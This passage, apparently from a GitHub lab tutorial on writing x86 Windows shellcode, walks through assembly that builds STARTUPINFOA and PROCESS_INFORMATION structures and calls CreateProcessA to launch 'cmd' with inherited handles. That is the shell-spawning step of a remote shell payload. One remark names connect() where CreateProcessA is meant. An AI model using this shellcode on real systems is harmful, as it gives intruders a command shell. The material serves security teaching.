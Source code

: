    ```
   push edx                ; cbReserved2 = NULL
   push edx                ; wShowWindow = NULL
   xor eax, eax            ; Zero out EAX
   mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
   push eax                ; Push dwFlags
   push edx                ; dwFillAttribute = NULL
   push edx                ; dwYCountChars = NULL
   push edx                ; dwXCountChars = NULL
   push edx                ; dwYSize = NULL
   push edx                ; dwXSize = NULL
   push edx                ; dwY = NULL
   push edx                ; dwX = NULL
   push edx                ; lpTitle = NULL
   push edx                ; lpDesktop = NULL
   push edx                ; lpReserved = NULL
   add dl,44               ; cb = 44
   push edx                ; Push _STARTUPINFOA on stack
   mov eax,esp             ; Make EAX a pointer to _STARTUPINFOA
   xor edx,edx             ; Zero out EDX again
   ```
3) Allocate space on the stack for the `PROCESS_INFORMATION` structure, this can be all null as we do not care what is written here. 
   ```
   ; Fill PROCESS_INFORMATION struct
   push edx                ; lpProcessInformation
   push edx                ; lpProcessInformation + 4
   push edx                ; lpProcessInformation + 8
   push edx                ; lpProcessInformation + 12
   ```
4) Prepare stack for the `CreateProcessA` Call.
   ```
   ; Now fill out the `CreateProcessA` parameters
   push esp                ; lpProcessInformation
   push eax                ; lpStartupInfo
   xor ebx,ebx             ; Zero out EBX to fill other parameters
   push ebx                ; lpCurrentDirectory
   push ebx                ; lpEnvironment
   push ebx                ; dwCreationFlags
   inc ebx                 ; bInheritHandles = True
   push ebx                ; Push bInheritHandles
   dec ebx                 ; Make EBX zero again
   push ebx                ; lpThreadAttributes
   push ebx                ; lpProcessAttributes
   push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
   push ebx                ; lpApplicationName
   ```
5) Make the function call.
   ```
   mov ebx,0x7594f960      ; Change! Call CreateProcessA()
   call ebx                ; Call CreateProcessA()
   ```
   * The address of the `connect(...)` function is found with [arwin](https://github.com/xinwenfu/arwin).
   * We will return to the stack, and we do not need to save the return value (It will return if it failed or not).
